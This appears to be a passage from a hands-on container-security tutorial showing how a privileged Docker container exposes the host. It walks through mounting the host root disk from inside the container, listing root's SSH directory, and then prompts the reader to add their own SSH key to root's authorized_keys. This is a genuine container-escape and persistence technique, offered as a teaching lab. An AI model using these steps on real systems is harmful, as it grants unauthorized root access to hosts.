 ### Privileged containers

In this section we will see how to run a privileged container and the consequences this might have.

Execute the following docker command:

```
docker run --rm -it --privileged ubuntu
```

This will:

* Download the latest ubuntu image
* Create a new container
* Open an iterative shell in it

A privileged containers has:

* All capabilities
* Bypasses all AppArmor checks
* Bypasses all cgroup controller checks

Try for instance to enumerate this folder:

```
ls /dev
```

You should see a long list of devices and among them also the root `/` (in AWS xvda1)

#### Exploiting a privileged container

It does not get easier than this:

```
mount /dev/xvda1 /mnt
ls -la /mnt/root/.ssh/
```

Any idea about what we could do next ?

#### Add your SSH public key

Try now, from the container, to add your public SSH key to the root `authorized_keys` file.  

